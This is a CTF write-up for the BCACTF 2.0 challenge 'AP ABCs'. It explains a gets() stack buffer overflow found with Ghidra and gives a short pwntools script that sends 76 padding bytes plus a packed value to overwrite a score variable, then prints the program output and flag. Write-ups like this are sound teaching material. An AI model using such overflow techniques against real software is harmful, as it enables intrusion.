

# BCACTF 2.0 – AP ABCs

* **Category:** Binex
* **Points:** 100
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Oh wow, they put a freshman in AP ABCs? Never thought I'd see this happen. Anyways, good luck, and make sure to not cheat on your AP test!

## Solution

The challenge page provides us with a [binary](Backup/ap-abcs)) and the [C code](Backup/ap-abcs.c) it was compiled from.

Just like the previous challenge in this category, [Honors ABCs](Honors%20ABCs.md), this challenge asks us to recite the alphabet, however instead of having to score over 100 points, we're now tasked with scoring exactly 0x73434241 points.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

Like the previous challenge I decided to load the binary up in [Ghidra](https://ghidra-sre.org/) to look at the decompiled code to figure out how many characters we need to get to the score.



As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters, the same as the previously challenge. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by the required score.

The script I used to solve this challenge is nearly the same as the previous one;
```python
from pwn import *

#p = process('ap-abcs')
p = remote('bin.bcactf.com', 49154)
p.sendline(b"z"*76 + p32(0x73434241))

p.interactive()
```

This will eventually output the following;
```
Welcome to AP ABCs!
Unlike the non-AP class, you get the privilege of taking the AP test.
Wow, I know, so exciting right??!1
Anyways, good luck!
...
Answer for 1: 
You got a 1933787713 on your APs.
Tsk tsk tsk.
Cheating on the AP® tests is really bad!
Let me read you the College Board policies:
...
And take your flag: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
```

So the flag for this challenge is:

`bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}`